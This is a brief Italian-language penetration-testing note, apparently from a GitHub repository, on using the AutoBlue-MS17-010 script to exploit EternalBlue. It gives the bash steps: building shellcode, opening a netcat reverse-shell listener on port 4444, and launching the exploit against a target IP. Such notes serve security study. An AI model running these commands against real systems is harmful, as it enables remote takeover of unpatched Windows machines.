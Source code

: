 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# AutoBlue-MS17-010

**AutoBlue-MS17-010** è uno script Python che automatizza lo sfruttamento della vulnerabilità EternalBlue. <br>
È particolarmente utile in contesti dove non si usa Metasploit o si preferisce una procedura manuale e più trasparente.

```bash
cd AutoBlue-MS17-010/shellcode
chmod +x shell_prep.sh
./shell_prep.sh
nc -nvlp 4444
python eternalblue_exploit7.py <IP> shellcode/sc_x64.bin
```

AutoBlue può essere utilizzato per generare shellcode, avviare listener e inviare l’exploit, e funziona efficacemente su macchine non patchate vulnerabili a MS17-010 con SMBv1 attivo.

---
